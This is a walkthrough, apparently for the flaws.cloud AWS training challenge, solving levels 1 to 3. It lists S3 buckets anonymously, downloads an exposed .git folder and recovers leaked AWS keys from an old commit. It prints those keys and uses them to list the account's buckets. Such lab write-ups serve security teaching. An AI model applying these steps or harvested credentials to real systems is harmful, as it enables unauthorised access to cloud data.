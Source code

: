 # Flaws

## Level 1
 
Use the command 

    $nslookup flaws.cloud 

to find the ip  address of the aws server flaws.cloud

Resultant ips :  

    Name:   flaws.cloud
    Address: 52.92.192.211
    Name:   flaws.cloud
    Address: 52.218.181.178
    Name:   flaws.cloud 
    Address: 52.218.153.82
    Name:   flaws.cloud
    Address: 52.92.249.155
    Name:   flaws.cloud
    Address: 52.218.229.98
    Name:   flaws.cloud
    Address: 52.218.196.163
    Name:   flaws.cloud
    Address: 52.92.181.83
    Name:   flaws.cloud
    Address: 52.218.240.99
Reverse lookup on the ip results on 
    
    name = s3-website-us-west-2.amazonaws.com
Using the command :

    $nslookup 52.218.181.178
    
Using the command:

    $aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
    
list the root files on the flaws.cloud as an anonymous id.

Result:

    2017-03-14 08:30:38       2575 hint1.html
    2017-03-03 09:35:17       1707 hint2.html
    2017-03-03 09:35:11       1101 hint3.html
    2020-05-22 23:46:45       3162 index.html
    2018-07-10 22:17:16      15979 logo.png
    2017-02-27 07:29:28         46 robots.txt
    2017-02-27 07:29:30       1051 secret-dd02c7c.html
    
    
Browse 

    https://flaws.cloud/secret-dd02c7c.html
    
to get into the next level

Link for the next level: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
    
## Level 2

Create an account in aws as with free tier.

Create a Iam user with access key and secret access key after creating the account.

After creating the user try enquiring or list the root directory as a verified user from the terminal after setting the aws cli with access key and secret access key.

command for listing:

    $aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
   
Output be like:

    2017-02-27 07:32:15      80751 everyone.png
    2017-03-03 09:17:17       1433 hint1.html
    2017-02-27 07:34:39       1035 hint2.html
    2017-02-27 07:32:14       2786 index.html
    2017-02-27 07:32:14         26 robots.txt
    2017-02-27 07:32:15       1051 secret-e4443fc.html
    
After getting the result browse the secret file and you will get the link for the next level: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html
    
## Level 3

To list the root dir files use the command:


    $aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
output:

                                PRE .git/
    2017-02-27 05:44:33     123637 authenticated_users.png
    2017-02-27 05:44:34       1552 hint1.html
    2017-02-27 05:44:34       1426 hint2.html
    2017-02-27 05:44:35       1247 hint3.html
    2017-02-27 05:44:33       1035 hint4.html
    2020-05-22 23:51:10       1861 index.html
    2017-02-27 05:44:33         26 robots.txt

Here we can a see a .git file, 

For accessing the git commands, we sync it with our local system using the command:
 
    $ aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud ./flaws

Navigate into that directory using the command:

    $cd flaws

After that, for finding access and secret key, we can use the command
     
     $git logs
     
output:

    commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
    Author: 0xdabbad00 <scott@summitroute.com>
    Date:   Sun Sep 17 09:10:43 2017 -0600

        Oops, accidentally added something I shouldn't have

    commit f52ec03b227ea6094b04e43f475fb0126edb5a61
    Author: 0xdabbad00 <scott@summitroute.com>
    Date:   Sun Sep 17 09:10:07 2017 -0600

        first commit
To change branch that was mentioned in the commit, follow the command

    $ git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
You will be switched to the new branch were you will get a file named access_keys.txt which contains the access keys.

Output:

    access_key AKIAJ366LIPB4IJKT7SA
    secret_access_key OdNa7m+bqUvF3Bn/qgSnPE1kBpqcBTTjqwP83Jys

Configure your aws with this keys along with the region us-west-2

Then run:
   
    $aws s3 ls
    
Output:

     2020-06-25 23:13:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
     2020-06-27 04:36:07 config-bucket-975426262029
     2020-06-27 16:16:15 flaws-logs
     2020-06-27 16:16:15 flaws.cloud
     2020-06-27 20:57:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
     2020-06-27 20:57:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
     2020-06-27 20:57:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
     2020-06-27 20:57:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
     2020-06-27 20:57:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
     2020-06-28 07:59:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
     
     
We get the links to complete all the levels.

Link for level 4: https://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud

## Level 4



